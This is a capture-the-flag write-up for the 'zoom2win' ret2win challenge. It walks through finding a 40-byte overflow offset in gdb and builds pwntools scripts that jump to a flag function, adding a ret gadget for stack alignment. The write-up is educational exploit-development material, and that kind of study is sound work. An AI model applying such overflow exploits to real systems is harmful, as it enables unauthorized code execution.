



# zoom2win

by ZeroDayTea

what would CTFs be without our favorite ret2win (nc 143.198.184.186 5003)

## Challenge

In this challenge we were given an ELF-64bit named `zoom2win` with no canary, NX enabled, and no PIE.

```
$ file zoom2win; checksec zoom2win 
zoom2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f4a85541e0d661960a7b05ed51b3513d58e85a5a, for GNU/Linux 3.2.0, not stripped
[*] '/home/kali/Documents/killerqueen/zoom2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Let's try to run it

```
./zoom2win                       
Let's not overcomplicate. Just zoom2win :)
chicken nugget

```

It seems that the program doesn't do anything. Let's open the program using ida to see what the source code looks like.

#### main function
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rbp
  __int64 v5; // [rsp-28h] [rbp-28h]
  __int64 v6; // [rsp-8h] [rbp-8h]

  __asm { endbr64 }
  v6 = v3;
  sub_401070("Let's not overcomplicate. Just zoom2win :)", argv, envp);
  return sub_401090(&v5);
}
```

From the source code, there is another function that caught my eyes. It's `flag` function. Let's take a look.

#### flag
```c
__int64 flag()
{
  __asm { endbr64 }
  return sub_401080("cat flag.txt");
}
```

From the main function, it seems that we need to overflow the input and jump into the `flag` function.

First, we could use gdb to create a pattern.
```
$ gdb -q ./zoom2win    
Reading symbols from ./zoom2win...
(No debugging symbols found in ./zoom2win)
gdb-peda$ pattern create 80
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4A'
```

Next, run the program and send the pattern.
```
gdb-peda$ r
Starting program: /home/kali/Documents/killerqueen/zoom2win 
Let's not overcomplicate. Just zoom2win :)
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4A

Program received signal SIGSEGV, Segmentation fault.
```

From the output above, we can determine which part of our pattern is hitting the return in main function by examining the `$rsp`.
```
gdb-peda$ x/gx $rsp
0x7fffffffdf48: 0x4141464141304141
gdb-peda$ pattern offset 0x4141464141304141
4702116732032008513 found at offset: 40
```

Nice, we got the offset/padding. Now we need to know the address of `flag` function.
```
gdb-peda$ info func
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401070  puts@plt
0x0000000000401080  system@plt
0x0000000000401090  gets@plt
0x00000000004010a0  setvbuf@plt
0x00000000004010b0  _start
0x00000000004010e0  _dl_relocate_static_pie
0x00000000004010f0  deregister_tm_clones
0x0000000000401120  register_tm_clones
0x0000000000401160  __do_global_dtors_aux
0x0000000000401190  frame_dummy
0x0000000000401196  flag
0x00000000004011b2  main
0x00000000004011de  bufinit
0x0000000000401250  __libc_csu_init
0x00000000004012c0  __libc_csu_fini
0x00000000004012c8  _fini
```

Let's make a solver using python
```python
from pwn import *

padding = 40 # offset from the input to return
flag = 0x0000000000401196 # flag address

s = process("./zoom2win")

payload = b""
payload += b"A"*padding
payload += p64(flag)

print(s.recvline())
s.sendline(payload)
print(s.recvall())

s.close()
```

Now we need to do is just run the program to make sure it works!


Since it works, lets test on remote server by adding host, port and replacing `s = process("./zoom2win")` to `s = remote(host, port)`
```python
from pwn import *

padding = 40
ret_main = 0x00000000004011dd
flag = 0x0000000000401196

host = "143.198.184.186"
port = 5003

# s = process("./zoom2win")
s = remote(host, port)

payload = b""
payload += b"A"*padding
payload += p64(flag)

print(s.recvline())
s.sendline(payload)
print(s.recvall())

s.close()
```

Now all we need to do is just run the program!


But sadly we didn't get the flag :(

After some research, it seems the problem is stack alignment (Reference: [Buffer overflow stack alignment](https://youtu.be/vqNQe9xjz2Q)). From the youtube video, all that we need is just the address of return in main function and add it before add the address of flag into the payload.

```python
from pwn import *

padding = 40
ret_main = 0x00000000004011dd
flag = 0x0000000000401196

host = "143.198.184.186"
port = 5003

# s = process("./zoom2win")
s = remote(host, port)

payload = b""
payload += b"A"*padding
payload += p64(ret_main)
payload += p64(flag)

print(s.recvline())
s.sendline(payload)
print(s.recvall())

s.close()
```

Now let's run the program again :D


Flag: `kqctf{did_you_zoom_the_basic_buffer_overflow_?}`
